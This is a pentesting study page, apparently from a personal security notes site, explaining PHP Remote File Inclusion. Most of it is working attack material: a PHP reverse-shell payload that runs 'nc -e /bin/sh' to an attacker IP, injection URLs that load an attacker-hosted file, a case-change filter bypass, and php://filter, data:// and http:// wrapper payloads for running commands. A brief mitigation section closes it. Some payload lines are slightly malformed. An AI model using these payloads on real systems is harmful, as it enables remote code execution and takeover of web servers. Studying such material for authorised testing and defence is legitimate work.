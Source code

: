 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# RFI attack - Remote File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-security-testing-guide.md).


## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

## Wrappers

### PHP wrapper

php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://IPdomain/rfi.php?language=php://filter/convert.base64-encode/resource=recurso.php
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

```
http://IPdomain/rfi.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```

## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 